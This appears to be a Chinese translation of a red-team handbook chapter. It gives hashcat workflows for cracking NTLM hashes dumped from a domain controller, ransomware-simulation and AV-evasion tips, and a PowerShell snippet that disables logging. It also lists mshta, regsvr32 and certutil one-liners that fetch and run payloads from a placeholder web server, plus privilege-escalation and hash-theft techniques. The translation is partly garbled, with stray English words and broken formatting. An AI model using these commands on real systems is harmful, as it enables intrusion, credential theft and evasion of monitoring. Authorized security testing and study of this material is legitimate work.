在获得 `Domain Admin` 访问权限后，你使用 `DCSync` 攻击从 `域控制器` 转储了所有哈希值。你现在的目标是尽可能破解更多的哈希值。你知道可以在未来的行动中使用这些账户，并向受害公司展示他们使用的糟糕密码实践。

首先，我们将所有 `NTLM` `Windows` 哈希保存到一个名为 `cat.txt` 的文件中。为了便于读者理解输出，我们将省略初始的 `hashcat` 执行命令。每个命令执行将以 "`hashcat` -w 3 -m 1000 -o hashes.cracked ./hashes/cat.txt" 开头，其含义如下：

*   `hashcat`：运行 `hashcat`
*   `-w 3`：使用调优配置
*   `-m 1000`：哈希格式为 `NTLM`
*   `-o hashes.cracked`：将结果输出到文件中
*   `./hashes/cat.txt`：哈希值存储的位置

因此，每当看到 `[hashcat]` 字符串时，请将其替换为以下命令："`hashcat` -w 3 -m 1000 -o hashes.cracked ./hashes/cat.txt"。现在，让我们尽可能快且高效地在我们的 8 块 `GPU` 1080TI 机器上破解 `NTLM` 哈希值。

*   通过使用攻击模式 "`brute-force`" (`-a 3`) 破解所有长度为 7 个字符或更少的密码，针对任何字母、数字或特殊字符 (`?a`)，长度从 1 到 7 个字符 (`--increment`)。
    *   ```
        [hashcat] -a 3 ?a?a?a?a?a?a?a --increment
        ```
    *   7 个字符字母/数字/特殊字符的总时间约为 5 分钟。我们可以处理 8 个字符，但预计运行时间为 9 小时。
    *   你还可以将特殊字符限制为少数几个 (!@#$%^)，以大幅减少时间和复杂性。

*   接下来，将所有常见的密码转储列表与我们的哈希值进行比较。第一个文件 (`40GB_Unique_File.txt`) 是一个 3.2GB 的密码文件，运行时间约为 9 秒：
    *   ```
        [hashcat] ./lists/40GB_Unique_File.txt
        ```
*   我们可以看到，即使是最大的文件，速度也只需几秒。为了提高效率，我们可以使用 `*` 运算符并与 `./lists/` 文件夹中的每个密码列表进行比较。
    *   ```
        [hashcat] ./lists/*
        ```
*   接下来，根据哈希算法的速度，我们可以尝试对单个密码列表文件应用不同的规则集。我们将以 `RockYou` 规则集开始，这些 `NTLM` 哈希值大约需要 2 分钟 9 秒：
    *   ```
        [hashcat] ./lists/40GB_Unique_File.txt  -r ./rules/rockyou-30000.rule
        ```
    *   注意：使用 3GB 文件的 `NSAKEY` 规则集大约需要 7 分钟，而来自 `NotSoSecure` 的 "One Rule to Rule Them All" 规则集大约需要 20 分钟。

*   此时，我会回头检查其他密码列表和规则集的组合。从第一次对所有大型规则集和大型密码泄露列表的处理中，我们通常至少能获得 30%+ 的破解率。

*   接下来，我们可以在密码列表的右侧添加字符，以提高破解更长密码要求的可能性。下面看到的 `-a 6` 开关命令将在密码的右侧添加每个字母/数字/特殊字符，从 1 个字符开始一直到 4 个字符：
    *   ```
        [hashcat] -i -a 6 ./lists/found.2015.txt ?a?a?a?a
        ```
    *   注意：这需要大约 30 分钟才能达到 4 个字符。

*   我们还可以在密码列表的左侧添加字符。以下命令将在密码的左侧添加每个字母/数字/特殊字符，从 1 个字符开始一直到 4 个字符：
    *   ```
        [hashcat] -i -a 7 ?a?a?a?a ./lists/40GB_Unique_File.txt
        ```
    *   注意：这需要大约 30 分钟才能达到 4 个字符。

*   `hashcat` 工具集：https://github.com/hashcat/hashcat-utils/releases。`hashcat` 有一堆工具可以帮助构建更好的密码列表。其中一个例子是 `combinator`，它可以取两个或三个不同的密码列表并生成组合。使用小列表相对较快。将我们的 `shortKrak` 列表与自身组合会产生非常快的破解效果：
    *   ```
        ./hashcat-utils-1.8/bin/combinator.bin lists/shortKrak.txt lists/shortKrak.txt > lists/comboshortKrak.txt
        ```
*   使用像顶级 `Google` 1000 个单词这样的列表会导致文件约为 1.4 GB，因此你需要小心选择文件的大小。
    *   ```
        ./hashcat-utils-1.8/bin/combinator.bin lists/google_top_1000.txt lists/google_top_1000.txt > lists/google_top_1000_combo.txt
        ```
    *   注意：运行一个 4MB 文件的 `combinator` 会产生大于 25GB 存储的文件。因此，要小心这些文件的大小。

*   很多时候，人们使用的密码并不是常见的字典单词，而是基于其公司、产品或服务的单词。我们可以使用客户端网站创建自定义密码列表。两个辅助工具是：
    *   `Brutescrape` - https://github.com/cheetz/brutescrape
    *   `Burp` 词列表提取器 - https://portswigger.net/bappstore/21df56baa03d499c8439018fe075d3d7

*   接下来，收集所有你破解的密码，分析它们，并使用 https://thesprawl.org/projects/pack/ 创建掩码：
    *   ```
        python ./PACK-0.0.4/statsgen.py hashes.password
        ```
    *   ```
        python ./PACK-0.0.4/statsgen.py hashes.password --minlength=10 -o hashes.masks
        ```
    *   ```
        python ./PACK-0.0.4/maskgen.py hashes.masks --optindex -q -o custom-optindex.hcmask
        ```

*   使用你新创建的掩码运行密码破解：


\`\`hashcat\` -a 3 ./custom-optindex.hcmask\`

*   使用 Pipal 处理密码列表以更好地理解基础单词 (`https://github.com/digininja/pipal`):

*   \`cd /opt/pipal\`

*   \`.\/pipal.rb hashes.password\`

*   

*   查看此列表，您可能会发现这家公司默认使用 `resetme12345` 作为密码，并且可能位于密歇根州（底特律、老虎、橄榄球）。

从这里开始您要去哪里？`There` 总有许多关于不同密码生成工具、分析和技术的研究可以找到更快的破解密码的方法。`Some` 起始资源：

*   A Deep Learning Approach for Password Guessing - `https://github.com/brannondorsey/PassGAN\`

*   Fast, Lean, and Accurate: Modeling Password Guessability Using Neural Networks - `https://www.usenix.org/conference/usenixsecurity16/technical-sessions/presentation/melicher\`

## 创意活动

在公司的内部红队工作提供了进行创意活动的机会。`One` 我最喜欢的活动是模拟勒索软件。`In` 过去，我们被允许在 WannaCry 时代运行模拟勒索软件活动。随着加密恶意软件/勒索软件的流行度变得 `more and more`，我们需要能够测试我们的业务恢复/灾难恢复程序。`We` 都亲眼见证了现实生活中的 WannaCry，它通过 SMB 共享横向移动，利用像 `EternalBlue` 这样的漏洞，加密文件，甚至删除主机系统上的所有备份。作为 IT 组织，我们需要问自己的问题是，如果我们的用户点击了该恶意软件，影响会是什么？`Could` 我们恢复用户文件、共享文件、数据库和 `more`？`The` 我们经常听到答案是，“`I think so…`”，但在没有红队提前验证流程的情况下，我们要等到房子被烧毁后才得知真实答案。

`This` 就是我为什么喜欢让组织拥有内部红队。`We` 真正可以证明和验证安全和 IT 是否有效，全部在受控环境中。为此 THP 本书，`I` 未包含我们勒索软件的任何示例，因为这样做风险很大。`I` 将留给您使用批准的方法构建工具并测试您的客户。

### 模拟勒索软件提示

*   `Some` 组织实际上不允许您删除/加密文件。对于这些公司，您可以进行模拟勒索软件漏洞事件。`Once` 恶意软件执行后，它所做的一切是扫描主机/网络以查找重要文件，将每个文件读取到内存中，对随机字节进行逐个字节交换，将这些字节发送到 C2 服务器，并包含元数据。这将会演示您能够接触多少文件，在他们检测到流量之前能够从他们的网络中提取多少数据，以及他们可以恢复哪些文件。

*   `Look` 其他勒索软件样本以查看它们正在加密哪些文件类型。这可以为活动增加更多现实感。例如，查看 WannaCry 的文件类型 (`https://gist.github.com/rain-1/989428fa5504f378b993ee6efbc0b168`)。

*   `If` 您要“加密”恶意软件，请做简单一点。它可以是带密钥的 `AES`、公开/私有 x509 证书或某种位移 `XOR`。您使其越复杂，无法恢复文件的可能性就越高。

*   `Test`, `test`, and `test`. `The` 最糟糕的事情是您发现公司无法恢复关键文件且您的解密过程不起作用。

*   `Many` 下一代 AVs 会自动阻止基于链中某些行为的勒索软件。例如，勒索软件可能会执行的普通检测是：扫描系统中的所有类型 `X` 的文件、加密一个文件、删除卷影副本并禁用备份。为了绕过检测流程，尝试减缓 `this` 活动速度或找到执行这些相同策略但通过不同进程的方式。

## 禁用 PS 日志记录

作为红队成员，`we` 总是在寻找独特的方法来尝试禁用任何类型的日志记录。`Although` 有方法可以执行这些攻击，我们仍然不断搜索新的简单技术。

这里是 `leechristensen` (`https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs`) 的示例，可用于禁用 PowerShell 日志：

*   `$EtwProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static');`

*   `$EventProvider = New-Object System.Diagnostics.Eventing.EventProvider -ArgumentList @([Guid]::NewGuid());`

*   `$EtwProvider.SetValue($null, $EventProvider);`

## 从互联网下载文件的 Windows 命令行

如果您通过应用程序漏洞获得命令执行或通过 Office 文件或 PDF 获得 Shell 访问权限，接下来的步骤可能是下载并执行您的二次恶意软件。对于这些情况，有 Windows“功能”我们可以滥用来完成工作。这些示例中的大多数来自 `arno0x0x` 和 `@subtee` (`https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/`) 的出色研究：

*   `mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))`

*   `mshta http://webserver/payload.hta`

*   `rundll32.exe javascript:"\\..\\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();`

*   `regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll`

*   `certutil -urlcache -split -f http://webserver/payload payload`

*   `certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil /logfile= /LogToConsole=false /u payload.dll`

*   `certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe`

`These` 只是 `a` 少数示例，但有很多其他方法可以通过命令行获得您的二次代码执行。`It` 取决于您找到其他技术来隐藏于传统日志之外。

## 从本地管理员获取系统权限

从本地管理员账户到系统可以以多种方式完成。最常见的方式，当然，是使用 Metasploit 的 `getsystem`，但并不总是可用。`decoder-it` (`https://github.com/decoder-it/psgetsystem`) 创建了一个超棒的 PowerShell 脚本来从本地管理员 PowerShell 提示切换到系统，方法是创建一个新进程，将该新进程的父 PID 设置为拥有系统权限。该 PowerShell 可以找到 `here`: `https://github.com/decoder-it/psgetsystem` 并使用以下命令执行：

*   `PS> . .\\psgetsys.ps1\`

*   `PS>[MyProcess]::CreateProcessFromParent(<process_run_by_system>,<command_to_execute>)`

*   

## 在不触碰 LSASS 的情况下检索 NTLM 哈希值

Elad Shamir 进行了广泛研究，并能够找出如何在从未触摸 LSASS 的情况下抓取 NTLM 哈希。在此攻击之前，通过 Mimikatz 获取哈希的 LSASS 接触方式受到 Windows 10 Enterprise 和 Windows Server 2016 中凭据守护程序的限制。Elad 开发了一种名为“内部独白”的攻击，执行以下操作：

*   `Disable` NetNTLMv1 预防控制措施，通过更改 `LMCompatibilityLevel`, `NTLMMinClientSec` 和 `RestrictSendingNTLMTraffic` 为适当值，如上所述。

*   `Retrieve` 当前运行进程中的所有非网络登录令牌并冒充关联的用户。

*   `For` 每个被冒充的用户，与 NTLM SSP 本地交互以在冒充用户的安全上下文中对选择的挑战发出 NetNTLMv1 响应。

*   `Restore` 恢复 `LMCompatibilityLevel`, `NTLMMinClientSec` 和 `RestrictSendingNTLMTraffic` 的原始值。

*   `[https://github.com/eladshamir/Internal-Monologue]`

*   

## 使用防御工具构建培训和监控环境


测试我们的恶意软件具有挑战性的一部分是，我们需要非常迅速地配置测试环境。克里斯·隆（Chris Long）构建的一个非常棒的工具，称为 `Detection Lab` (https://github.com/clong/DetectionLab)，是一套 `Packer` 和 `Vagrant` 脚本，可以快速将 Windows 活动目录上线。该工具包含一整套端点安全工具和日志记录最佳实践。`Detection Lab` 由总共四个主机组成 (https://medium.com/@clong/introducing-detection-lab-61db34bed6ae)：

*   `DC`：一台 Windows 2016 域控制器
*   `WEF`：一台管理 Windows 事件收集的 Windows 2016 服务器
*   `Win10`：模拟非服务器端点的 Windows 10 主机
*   `Logger`：一台运行 Splunk 和 Fleet 服务器的 Ubuntu 16.04 主机

## 结论

对于 `Red Teams`（红队）来说，技巧和小窍门是我们的手艺的一部分。我们必须不断研究更好的攻击用户、系统和规避检测的方法。没有灵丹妙药。这需要数年时间的磨练、汗水和泪水。

